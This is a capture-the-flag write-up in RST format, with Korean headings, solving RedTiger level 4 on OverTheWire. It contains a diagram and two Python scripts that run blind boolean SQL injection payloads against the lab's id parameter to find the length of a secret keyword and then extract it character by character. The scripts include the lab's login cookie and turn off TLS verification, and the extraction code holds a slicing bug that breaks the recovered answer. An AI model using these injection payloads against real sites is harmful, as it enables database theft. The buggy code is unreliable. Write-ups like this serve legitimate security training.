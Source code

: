 ================================================================================================================
[redtiger] level4
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="id=1 and if((select length(keyword) from level4_secret)=%s,1,0)",arrowhead="normal"];
        step3 -> step2[label="Data Length",arrowhead="normal"];
        step4 -> step5[label="id=1 and if((select substring(keyword,%s,1) from level4_secret)=%s,1,0)",arrowhead="normal"];
        step7 -> step6[label="Data Extract",arrowhead="normal"];
    }

|

server -> DB 예측
================================================================================================================

- 테이블명: level4_secret
- Disabled: like
- GET 파라미터: id

.. code-block:: sql

    SELECT * FROM tb_name where
    id=$_GET["id"]

|

and if
================================================================================================================

- 데이터 길이 확인

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level4.php"
    cookies = {
        "level4login":"dont_publish_solutions_GRR%21"
    }

    n = 0
    bef_ret = ''
    for l in range(20):
        params = {
            "id": "1 and if((select length(keyword) from level4_secret)=%s,1,0)" % str(l)
        }
        print "1 and if((select length(keyword) from level4_secret)=%s,1,0)" % str(l)
        r = requests.post(url, cookies=cookies, params=params, verify=False)
        if bef_ret!=r.content:
            print r.content
        bef_ret = r.content



|

and if
================================================================================================================

- 데이터 추출

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level4.php"
    cookies = {
        "level4login":"dont_publish_solutions_GRR%21"
    }

    n = 0
    bef_ret = ''
    ans = ''
    # column length = 17
    for l in range(1,18):
        # character range
        for m in range(31,128):
            params = {
                "id": "1 and if((select substring(keyword,%s,1) from level4_secret)=%s,1,0)" % (str(l),hex(m))
            }
            print "1 and if((select substring(keyword,%s,1) from level4_secret)=%s,1,0)" % (str(l),hex(m))
            r = requests.post(url, cookies=cookies, params=params, verify=False)
            if bef_ret!=r.content and bef_ret!='':
                print r.content
                ans += str(hex(m))[:2]
                break
            bef_ret = r.content

    print ans

|